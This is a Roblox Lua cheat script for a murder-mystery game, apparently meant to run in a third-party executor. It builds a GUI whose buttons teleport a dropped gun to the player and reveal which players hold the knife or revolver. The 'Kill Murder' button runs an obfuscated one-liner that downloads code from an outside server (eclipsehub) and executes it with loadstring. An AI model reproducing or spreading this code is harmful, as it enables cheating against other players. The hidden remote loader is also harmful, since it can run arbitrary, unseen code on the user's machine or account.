 local ScreenGui = Instance.new("ScreenGui")
local main = Instance.new("Frame")
local Logo = Instance.new("ImageLabel")
local Sheriff = Instance.new("TextButton")
local Murder = Instance.new("TextButton")

--Properties:

ScreenGui.Parent = game.CoreGui

main.Name = "main"
main.Parent = ScreenGui
main.BackgroundColor3 = Color3.fromRGB(57, 57, 57)
main.BackgroundTransparency = 0.200
main.BorderSizePixel = 0
main.Position = UDim2.new(0.310416698, 0, 0.32967481, 0)
main.Size = UDim2.new(0, 746, 0, 349)
main.Active = true
main.Draggable = true



Logo.Name = "Logo"
Logo.Parent = main
Logo.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Logo.Position = UDim2.new(0.0147453081, 0, 0.0286532957, 0)
Logo.Size = UDim2.new(0, 94, 0, 50)
Logo.Image = "http://www.roblox.com/asset/?id=9398360740"


Sheriff.Name = "Sheriff"
Sheriff.Parent = main
Sheriff.BackgroundColor3 = Color3.fromRGB(166, 130, 255)
Sheriff.Position = UDim2.new(0.0147453081, 0, 0.232091695, 0)
Sheriff.Size = UDim2.new(0, 163, 0, 50)
Sheriff.Font = Enum.Font.FredokaOne
Sheriff.Text = "Pick Up Gun"
Sheriff.TextColor3 = Color3.fromRGB(0, 0, 0)
Sheriff.TextSize = 27.000
Sheriff.MouseButton1Down:connect(function()
	local er = false
	local Mouse = game:GetService"Players".LocalPlayer:GetMouse()
	local player = game.Players:GetChildren()
	workspace.ChildAdded:connect(function(child)
		if child.Name == "GunDrop" then
			local cb = Instance.new("BindableFunction")
			cb.OnInvoke = function(arg)
				if arg == "Get gun!" then
					workspace.GunDrop.CFrame = CFrame.new(game.Players.LocalPlayer.Character.Head.Position)
				end
			end
			game:GetService("StarterGui"):SetCore("SendNotification",{
				Title = "The sheriff has died!",
				Text = "Grab their gun?",
				Duration = 5,
				Button1 = "Dismiss",
				Button2 = "Get gun!",
				Callback = cb
			})
		end
	end)

	Mouse.KeyDown:Connect(function(Key)
		if Key == "x" then
			for i=1,#player do
				local USERID = game.Players:GetUserIdFromNameAsync(player[i].Name)
				local gun = player[i].Backpack:FindFirstChild("Gun")
				local revolver = player[i].Backpack:FindFirstChild("Revolver")
				if gun ~= nil or revolver ~= nil then
					game:GetService("StarterGui"):SetCore("SendNotification",{
						Title = "Sheriff",
						Text = "Their name is " .. player[i].Name .. "!",
						Icon = "https://web.roblox.com/Thumbs/Avatar.ashx?x=100&y=100&Format=Png&userid="..USERID,
						Duration = 5,
						Button1 = "Dismiss",
					})
					er = true
				elseif gun == nil and revolver == nil and i == #player then
					game:GetService("StarterGui"):SetCore("SendNotification",{
						Title = "Sheriff",
						Text = "No sheriff could be found!",
						Duration = 5,
						Button1 = "Dismiss",
					})
				end
				if er then
					er = false
					break
				end
			end

		elseif Key == "z" then
			for i=1,#player do
				local USERID = game.Players:GetUserIdFromNameAsync(player[i].Name)
				local knife = player[i].Backpack:FindFirstChild("Knife")
				if knife ~= nil then
					game:GetService("StarterGui"):SetCore("SendNotification",{
						Title = "Murderer",
						Text = "Their name is " .. player[i].Name .. "!",
						Icon = "https://web.roblox.com/Thumbs/Avatar.ashx?x=100&y=100&Format=Png&userid="..USERID,
						Duration = 5,
						Button1 = "Dismiss",
					})
					er = true
				elseif knife == nil and i == #player then
					game:GetService("StarterGui"):SetCore("SendNotification",{
						Title = "Murderer",
						Text = "No murderer could be found!",
						Duration = 5,
						Button1 = "Dismiss",
					})
				end
				if er then
					er = false
					break
				end
			end
		end
	end)
end)


Murder.Name = "Murder"
Murder.Parent = main
Murder.BackgroundColor3 = Color3.fromRGB(166, 130, 255)
Murder.Position = UDim2.new(0.273458421, 0, 0.232091695, 0)
Murder.Size = UDim2.new(0, 163, 0, 50)
Murder.Font = Enum.Font.FredokaOne
Murder.Text = "Kill Murder"
Murder.TextColor3 = Color3.fromRGB(0, 0, 0)
Murder.TextSize = 29.000
Murder.MouseButton1Down:connect(function()
	getgenv().mainKey = "nil"

	local a,b,c,d,e=loadstring,request or http_request or (http and http.request) or (syn and syn.request),assert,tostring,"https://api.eclipsehub.xyz/auth"c(a and b,"Executor not Supported")a(b({Url=e.."\?\107e\121\61"..d(mainKey),Headers={["User-Agent"]="Eclipse"}}).Body)()
end)
